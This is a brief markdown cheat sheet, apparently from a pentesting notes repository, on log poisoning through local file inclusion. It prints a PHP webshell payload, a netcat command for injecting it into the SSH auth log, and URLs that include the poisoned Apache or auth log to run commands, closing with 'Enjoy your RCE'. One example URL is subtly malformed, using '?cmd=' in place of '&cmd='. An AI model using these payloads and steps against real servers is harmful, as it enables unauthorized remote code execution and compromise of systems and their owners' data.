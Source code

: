 # Log Poisoning

#### Log Poisoning occurs via LFI attack.

#### If you can access the file /var/log/apache2/access.log, you can inject a webshell as the User-Agent by using web proxy tools like Burpsuite and OWASP ZAP:

### 1) Locate a writable log file

    /var/log/apache2/access.log

### 2) Inject a payload

Inject a simple web shell payload into a request header (e.g., User-Agent or Referer) that the web server will log.

Payload:

    <?php echo system($_GET['cmd']); ?>

### 3) Execute via LFI

    http://example.com/vulnerable.php?page=/path/to/log/access.log&cmd=whoami

## Alternate poisoning method: SSH Log Poisoning

### 1) Locate the log file

    /var/log/auth.log

### 2) Poison the auth.log file

Connect to SSH port via netcat

    nc -nv IP 22

Inject payload

    <?php echo system($_GET['cmd']); ?>

### 3) Run commands via your webshell now

    http://domain.local/lfi.php?file=/var/log/auth.log?cmd=whoami

**Enjoy your RCE**
